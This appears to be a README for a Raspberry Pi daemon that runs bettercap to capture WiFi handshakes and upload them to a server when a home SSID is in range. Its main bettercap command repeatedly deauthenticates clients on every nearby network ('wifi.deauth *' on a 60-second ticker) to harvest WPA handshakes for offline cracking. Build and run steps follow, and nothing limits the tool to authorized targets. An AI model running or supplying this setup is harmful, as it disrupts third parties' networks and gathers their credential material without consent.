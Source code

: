 # Deamon

The idea of the raspberry-pi part is simple, it is designed for sending captures performed by `bettercap` to the server.
Ideally, you can run the bettercap+deamon on the Raspberry Pi, and it will send the handshakes to the server when your
local-home SSID of your WIFI has been recognized nearby.

> [!NOTE]  
> This feature is disabled if the `TEST` env variable is `False`, but you must make sure that you have, for example, 2 interfaces and one of them is always connected to a network

> Tested on Raspberry-Pi 5 Model B Rev. 2

> [!TIP]
> Change `wlan1` interface with your interface accordingly. Make sure your Wi-Fi card supports monitor mode and packet injection first.

## Run Bettercap

This is an all-in-one.

```bash
sudo bettercap -iface wlan1 -eval 'set wifi.handshakes.aggregate false; set wifi.handshakes.file ~/handshakes; wifi.recon on; set wifi.show.sort clients desc; set ticker.commands "wifi.deauth *; clear; wifi.show"; set ticker.period 60; ticker on';
```

> [!WARNING]  
> Deamon uses as base directory the `HOME` user directory, since bettercap needs sudo you must run deamon as well as root.

### Other useful bettercap commands

```bash
sudo bettercap -iface wlan1
wifi.recon BBSID
wifi.recon on
wifi.recon.channel N; # N is the channel to recon 
```

# Compile and run

> [!IMPORTANT]  
> Deamon needs `libpcap0.8-dev` to be installed

> [!IMPORTANT]  
> `/etc/machine-id` must exist on the machine

```bash
cd raspberry-pi
go mod verify
go mod tidy
go build main.go
sudo ./main
```